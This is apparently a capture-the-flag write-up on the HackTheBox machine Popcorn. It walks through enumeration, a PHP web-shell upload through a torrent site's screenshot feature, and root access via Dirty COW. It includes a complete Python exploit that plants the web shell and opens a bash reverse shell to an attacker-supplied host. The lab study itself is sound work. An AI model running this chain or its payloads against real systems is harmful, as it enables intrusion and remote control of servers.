

Popcorn is a Medium box from HackTheBox with Linux as OS. In my opinion it would be ratted as Easy, not Medium. The initial shell you get with a file upload vulnerability in the torrent file we upload. It allow us to upload any file in it, including php ones, so we can upload a php malicious file and be happy.

The privilege escalation we get with the dirty cow vulnerability, it's not the intended way, but how we just want to automate the first shell, I did it in this way.

The exploit for this box is on the body of the post. Hope you enjoy!

# Diagram



# Enumeration

First step is to enumerate the box. For this we'll use `nmap`

```sh
nmap -sV -sC -Pn 10.10.10.6
```

> -sV - Services running on the ports

> -sC - Run some standart scripts

> -Pn - Consider the host alive


## Port 80

We try to open it on the browser


### Gobuster

Let's start crafting a little more on the box to see if we can enum more things do explore

```sh
gobuster dir -u http://10.10.10.6 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
```

We found a bunch of directories in it. Fine.


### /test

Just the php info page


We notice that we have the file_uploads seted as on, it means that if we find a LFI we can have RCE


### /torrent

We open the /torrent folder and seems to be a torrent website


It's a normal web page. We try different stuff in the

We try to create a new user


Seems that worked


Now we try to login


Worked and now we can upload files!


We upload a simple png file


We got an error message


We see in burp how it's working


We see in Browse that we have a file already uploaded


We see that the file is .torrent

So we get one valid torrent to upload there and see how it's working


We see in the burp the file upload


And it was uploaded 


We click on the `Edit This Torrent`


Now it seems interesting, because we can upload images in it. And possibly web shell!


We upload a jpg file


We got success!


In burp we have the correct upload text


## RCE

We simply try to upload a malicious php file


And we have RCE


## Reverse Shell

And now a reverse shell!


Ok, now let's automate all the exploit chain

# Auto Reverse Shell

We will use our python skeleton to do that

```py
#!/usr/bin/python3

import argparse
import requests
import sys

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    args = parser.parse_args()
    
    '''Here we call the functions'''
    
if __name__ == '__main__':
    main()
```

Here it is


```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# HackTheBox - Popcorn - Auto Reverse Shell

import argparse
import requests
import sys
import base64
import os
import re
import base64
import urllib.parse
import socket, telnetlib
from threading import Thread

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
# Set the handler
def handler(lport,target):
    print("[+] Starting handler on %s [+]" %lport) 
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %target) 
    t.sock = conn
    print("[+] Shell'd [+]")
    t.interact()

# Function to login on the web app
def loginApp(rhost,username,password):
    print("[+] Let's Login on the APP !!! [+]")
    url = "http://%s:80/torrent/login.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    r.get(url, proxies=proxies)
    data = {"username": "%s" %username, "password": "%s" %password}
    r.post(url, headers=headers, data=data, proxies=proxies, cookies=r.cookies)
    print("[+] Logged In !!! [+]")
    
# Function to simple upload a valid torrent file
def maliciousUpload(rhost):
    print("[+] Let's upload the valid torrent file !! [+]")
    url = "http://%s:80/torrent/torrents.php?mode=upload" %rhost
    data = 'ZDg6YW5ub3VuY2UzNTp1ZHA6Ly90cmFja2VyLm9wZW5iaXR0b3JyZW50LmNvbTo4MDEzOmNyZWF0aW9uIGRhdGVpMTMyNzA0OTgyN2U0OmluZm9kNjpsZW5ndGhpMjBlNDpuYW1lMTA6c2FtcGxlLnR4dDEyOnBpZWNlIGxlbmd0aGk2NTUzNmU2OnBpZWNlczIwOlzF5lK+DebyeAWzBGT/mwD0ifDJNzpwcml2YXRlaTFlZWU='
    os.system("echo %s | base64 -d > /tmp/file.torrent"%data)
    multipart_data = {
        'torrent': ('0x4rt3mis.torrent', open('/tmp/file.torrent', 'rb'), "application/x-bittorrent"),
        'filename' : (None,"0x4rt3mis.torrent"),
        'type' : (None,"5"),
        'subtype': (None,"23"),
        'submit' : (None,"Upload Torrent")
    }
    upload = r.post(url, files=multipart_data, proxies=proxies)
    
def getTorrentIT(rhost):
    print("[+] Let's get the id from our torrent uploaded !! [+]")
    url = "http://%s:80/torrent/index.php?mode=directory" %rhost
    torrent_page = r.get(url, proxies=proxies, cookies=r.cookies)
    index = torrent_page.text.find("0x4rt3mis")
    torrent_id = torrent_page.text[index:index+128].split('"')[1]
    global torrent_id_true
    torrent_id_true = torrent_id.split('=')[2]
    print("[+] The torrent it we need is: %s [+]" %torrent_id_true)

# Function to simple upload the malicious php file
def maliciousUploadPHP(rhost,torrent_id_true):
    print("[+] Let's upload the php malicious file !! [+]")
    url = "http://%s:80/torrent/upload_file.php?mode=upload&id=%s" %(rhost,torrent_id_true)
    data = "<?php system($_REQUEST[\"cmd\"]); ?>"
    multipart_data = {
        'file': ('0x4rt3mis.php', data, "image/jpeg"),
        'submit' : (None,"Submit Screenshot")
    }
    upload = r.post(url, files=multipart_data, proxies=proxies)
    print("[+] Done, uploaded ! Let's get the reverse !! [+]")
    
# Function to get the reverse shell working
def getReverse(rhost,lhost,lport,torrent_id_true):
    print("[+] Now Let's get the reverse shell! [+]")
    reverse = "bash -i >& /dev/tcp/%s/%s 0>&1" %(lhost,lport)
    message_bytes = reverse.encode('ascii')
    base64_bytes = base64.b64encode(message_bytes)
    base64_message = base64_bytes.decode('ascii')

    payload = {
    'cmd': 'echo ' + base64_message + '|base64 -d | bash'
}
    payload_str = urllib.parse.urlencode(payload, safe='|')
    url = "http://%s:80/torrent/upload/%s.php" %(rhost,torrent_id_true)
    r.get(url, params=payload_str, proxies=proxies, cookies=r.cookies)

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-user', '--username', help='Username of the app', required=True)
    parser.add_argument('-pass', '--password', help='Password of the user app', required=True)
    parser.add_argument('-li', '--localhost', help='Local ip to receive the reverse shell', required=True)
    parser.add_argument('-lp', '--localport', help='Local port to receive the reverse shell', required=True)
    args = parser.parse_args()

    rhost = args.target
    username = args.username
    password = args.password
    lhost = args.localhost
    lport = args.localport

    '''Here we call the functions'''
    # Set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    # Login on the app
    loginApp(rhost,username,password)
    # Upload the malicious torrent
    maliciousUpload(rhost)
    # Get the torrent id
    getTorrentIT(rhost)
    # Upload the malicious php file
    maliciousUploadPHP(rhost,torrent_id_true)
    # Get the rev shell
    getReverse(rhost,lhost,lport,torrent_id_true)

if __name__ == '__main__':
    main()
```

Now we could procced on the privilege escalation

# www-data --> Root

I'll explore the dirty cow vulnerability here. We have another method to get root in this box but I'll not explore this way now.


We get [this](https://github.com/FireFart/dirtycow/blob/master/dirty.c) code as PoC and get root on the box


We compile it

```sh
gcc -pthread dirty.c -o dirty -lcrypt
```


And now get root

```sh
chmod +x dirty
./dirty
```

And we are root


# Source Code Analysis

We copy the source code to our box

```sh
rsync -azP firefart@10.10.10.6:/var/www/* .
```


test.php, just the phpinfo()


On the file upload_file.php we see the vuln where we get the RCE


It just checks the file type, does not care about the name or anything related to the file.